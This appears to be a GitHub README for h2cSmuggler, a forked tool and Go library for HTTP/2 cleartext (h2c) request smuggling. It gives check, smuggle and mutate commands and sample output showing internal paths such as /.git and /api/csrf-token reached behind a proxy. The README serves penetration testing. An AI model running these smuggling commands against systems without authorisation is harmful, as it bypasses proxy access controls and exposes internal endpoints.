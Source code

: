 
# h2cSmuggler

![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
![Python version](https://img.shields.io/badge/python-3.x-blue.svg)

## Tl;dr

this repo is forked from https://github.com/BishopFox/h2csmuggler and includes the original research with modifications.

this repo also implements a golang library for performing h2c smuggling. This was done via forking the net/http2 library and modifying the client to accept and process non-spec compliant h2c upgrades over tls connections. This can also handle h2c upgrades over http.

Two utilities have been added to assist testing:

```
# check will return whether a h2c connection can be formed and the first request will return
go run ./cmd/h2csmuggler check https://google.com/ http://localhost

# smuggle will attempt the cli arguments as URLs sequentially
go run ./cmd/h2csmuggler smuggle https://google.com/ https://google.com/flag

# demo will create a http server that accepts non-complaint `Connection: Upgrade` connections and upgrade them to h2c for testing
go run ./cmd/demo

$ cat ~/tools/lists/rafter.txt | head -n 10 | ./h2cs mutate pitchfork http://localhost - -p api | ./h2cs smuggle http://localhost - -ojson
{"body":38,"level":"info","msg":"success","status":200,"target":"http://localhost/javsacript/main.js","time":"2020-09-16T12:43:05+10:00"}
{"body":39,"level":"info","msg":"success","status":200,"target":"http://localhost/javascripts/main.js","time":"2020-09-16T12:43:05+10:00"}
{"body":24,"level":"info","msg":"success","status":200,"target":"http://localhost/.git","time":"2020-09-16T12:43:05+10:00"}
{"body":28,"level":"info","msg":"success","status":200,"target":"http://localhost/api/_rpc","time":"2020-09-16T12:43:05+10:00"}
{"body":34,"level":"info","msg":"success","status":200,"target":"http://localhost/api/csrf-token","time":"2020-09-16T12:43:05+10:00"}
{"body":27,"level":"info","msg":"success","status":200,"target":"http://localhost/cgi-bin","time":"2020-09-16T12:43:05+10:00"}
<snip>

```

**todo**
- [x] Add concurrency to h2csmuggler
- [ ] ensure that concurrent "first" calls to Conn are threadsafe
- [x] Accept stdin/file input for check and smuggle

